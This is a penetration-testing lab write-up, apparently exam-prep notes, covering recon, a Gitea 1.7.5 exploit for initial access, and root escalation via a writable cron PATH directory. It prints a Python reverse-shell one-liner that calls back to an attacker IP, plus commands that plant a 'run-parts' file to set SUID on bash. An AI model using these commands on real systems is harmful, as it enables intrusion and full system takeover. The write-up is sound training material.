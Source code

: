 **Start 09:47 03-01-2025**

---
```
Scope:
192.168.196.67
```
# Recon

## Nmap

```bash
sudo nmap -sC -sV -oN nmap 192.168.196.67 -T5 -vvvv --min-rate=5000 -sT -p-

PORT     STATE  SERVICE REASON       VERSION
21/tcp   open   ftp     syn-ack      ProFTPD 1.3.5b
22/tcp   open   ssh     syn-ack      OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
53/tcp   closed domain  conn-refused
2222/tcp open   ssh     syn-ack      Dropbear sshd 2016.74 (protocol 2.0)
3000/tcp open   ppp?    syn-ack
| fingerprint-strings: 
|   GenericLines, Help: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Content-Type: text/html; charset=UTF-8
|     Set-Cookie: lang=en-US; Path=/; Max-Age=2147483647
|     Set-Cookie: i_like_gitea=c8575ef77f13f677; Path=/; HttpOnly
|     Set-Cookie: _csrf=yQu0cXuU-FS39aos97X2UjKsYrw6MTczNTg5NDA3NzY3OTMxODE1MQ%3D%3D; Path=/; Expires=Sat, 04 Jan 2025 08:47:57 GMT; HttpOnly
|     X-Frame-Options: SAMEORIGIN
|     Date: Fri, 03 Jan 2025 08:47:57 GMT
|     <!DOCTYPE html>
|     <html>
|     <head data-suburl="">
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Gitea: Git with a cup of tea</title>
|     <link rel="manifest" href="/manifest.json" crossorigin="use-credentials">
|     <script>
|     ('serviceWorker' in navigator) {
|     window.addEventListener('load', function() {
|     navigator.serviceWorker.register('/serviceworker.js').then(function(registration) {
|   HTTPOptions: 
|     HTTP/1.0 404 Not Found
|     Content-Type: text/html; charset=UTF-8
|     Set-Cookie: lang=en-US; Path=/; Max-Age=2147483647
|     Set-Cookie: i_like_gitea=adb8b86ceaefc313; Path=/; HttpOnly
|     Set-Cookie: _csrf=XoE1yPfF5RrD9PGqxmDhOJIFlAU6MTczNTg5NDA4MjgzMjkwMjYzMw%3D%3D; Path=/; Expires=Sat, 04 Jan 2025 08:48:02 GMT; HttpOnly
|     X-Frame-Options: SAMEORIGIN
|     Date: Fri, 03 Jan 2025 08:48:02 GMT
|     <!DOCTYPE html>
|     <html>
|     <head data-suburl="">
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Page Not Found - Gitea: Git with a cup of tea</title>
|     <link rel="manifest" href="/manifest.json" crossorigin="use-credentials">
|     <script>
|     ('serviceWorker' in navigator) {
|     window.addEventListener('load', function() {
|_    navigator.serviceWorker.register('/serviceworker.js').then(function(registration
```

I tried to log in as `anonymous` into FTP with no luck:

![](../../../assets/93711ad2619920b8c7f77432c534f440.png)

Then I started enumerating services and found that **Gitea 1.7.5** is running on **port 3000**.

![](../../../assets/3c628a6989ac321dc676957398e0e4ba.png)

I checked for exploits and found one:

![](../../../assets/692df4164f2603a752476ebd33ccb127.png)

As for further enumeration I did not find anything useful for the `Dropbear` SSH service.


# Initial Foothold

## 3000/TCP - HTTP

I downloaded the PoC and started modifying it:

![](../../../assets/68817665ebf460c4fb4276e123fb9fa3.png)

![](../../../assets/14636249f3af98dc9bdd37f9cc30a6dc.png)

I now had to create a `shell` payload that I could use to get a reverse shell.

![](../../../assets/b8354c0a8bab1915e1f58cca0ba84d34.png)

I booted up my `nc` listener and got to work.

![](../../../assets/5432ef5afebb4c0409de3437c7348143.png)

Unfortunately after the **Succesful login** I got an error.

>[!fail]
>I went too fast, the premise is to create an account first.

I registered a new account:

```
test1
test123
```

![](../../../assets/1f8f2c2011f06a9889487b9bbb16d48f.png)

I then had to modify the PoC again to include the newly created user.

![](../../../assets/a3e324a77a3d30c0bc3d8fb06594604b.png)

For whatever reason the exploit still wouldn't fire correctly:

![](../../../assets/0f382a644ec896802899222aacc2195a.png)

I went ahead and reverted the machine.

After reverting the machine another problem showed up. The exploit succesfully uploaded but the reverse shell wouldn't fire. Time to try another payload:

![](../../../assets/83e1994d59dcca4991649ac59efb1fc1.png)

After many many reverts I FINALLY managed to get a shell:

![](../../../assets/802a1357ce112b203ef404bbb73dcf87.png)

I then upgraded the shell using `script -c bash /dev/null`:

![](../../../assets/16479e286e66db6b968b527400813d8f.png)

### local.txt

![](../../../assets/fec11203b599639f90c321a9ec36b0e5.png)


# Privilege Escalation

Now that we have access we can get to enumerating the system and finding a way to exploit it.

I started off with `sudo -l` which gave me a surprise right away:

![](../../../assets/770b5af9f918a96a01cbfd12a00ee195.png)

I then went ahead and enumerated SUID/GUID binaries:

![](../../../assets/1ebef2317cf36cfa80342b5325e9dcc2.png)

I could've gone and enumerated it manually but instead I downloaded `linpeas.sh`:

![](../../../assets/3a1c4969ff10837557db3e64033f2809.png)

Right away I noticed the following:

![](../../../assets/39f665cdfb73e54d57ed808c3dacb5bb.png)

As well as:

![](../../../assets/b9f29aa527753250303754e3bdf1bf85.png)

>[!note]
>We see `/usr/bin/local` as an interesting writable directory. It’s also set up in the cron path in the second position.

I went ahead and enumerated the cron jobs:

![](../../../assets/1848e5ae7f316e74640af772b3828600.png)

![](../../../assets/eca3adfec6d564bab7cd33dbc229c7fb.png)

>[!important]
>At the top we notice the cron job `cd / && run-parts --report /etc/cron.hourly`. This means we could write a `run-parts` executable within `/usr/local/bin` which will then get executed within the hour and give us a `root` shell, as it the cron job is owned by `root`.

Let's put this in practice:

```bash
python3 -c 'import socket,subprocess,os;s=scoket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.238",2223));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

I made this in my Kali machine, then transferred it over and `chmod 777` the file and then waited for a root shell.

>[!fail]
>This took a really long time without any effect, I also tried a `msfvenom` payload to no avail.

## Succesful approach

```bash
echo "chmod +s /bin/bash" > run-parts
chmod +x run-parts

ls -la /bin/bash
-rwsr-sr-x 1 root root 1099016 May 15  2017 /bin/bash
```

We can now go ahead and run `bash -p` to elevate our shell:

![](../../../assets/f8b033013bf10b5576c87421d1c3fabe.png)

>[!success]
>We have FINALLY after many reverts successfully escalated our privileges.

### proof.txt

![](../../../assets/d95e28fefce7a7d70046458ae025013d.png)

---

**Finished 12:01 03-01-2025**

[^Links]: [[OSCP Prep]]  

#cron #priv-esc #gitea 


